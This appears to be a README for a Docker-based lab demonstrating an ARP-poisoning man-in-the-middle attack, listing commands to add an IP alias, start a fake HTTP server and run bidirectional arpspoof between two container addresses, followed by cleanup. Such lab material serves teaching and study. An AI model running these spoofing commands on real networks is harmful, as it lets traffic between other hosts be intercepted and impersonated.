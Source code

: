 # ARP Poisoning MITM using Docker containers 

## 1. Start the Containers

```bash
(sudo) docker compose up
```

---

## 2. Identify the Docker Bridge Interface

```bash
sudo ifconfig (net-tools should be installed)

--OR--

ip -o link show | grep br- | awk -F: '{print $2}'
```
Example: `br-7e3d198083c3`.

---

## 3. Add Server IP Alias

```bash
sudo ip addr add 192.168.90.100/32 dev br-7e3d198083c3
```

---

## 4. Launch the Fake HTTP Server

Make the script executable and start it in the background:

```bash
sudo python3 fakeserver.py
```

---

## 5. Start ARP Poisoning

Run two `arpspoof` processes:

```bash
sudo arpspoof -i br-7e3d198083c3 -t 192.168.90.101 192.168.90.100 
sudo arpspoof -i br-7e3d198083c3 -t 192.168.90.100 192.168.90.101 
```

---

## 6. Cleanup

1. Stop arpspoof:
   ```bash
   sudo pkill arpspoof
   ```
2. Remove the IP alias:
   ```bash
   sudo ip addr del 192.168.90.100/32 dev br-7e3d198083c3
   ```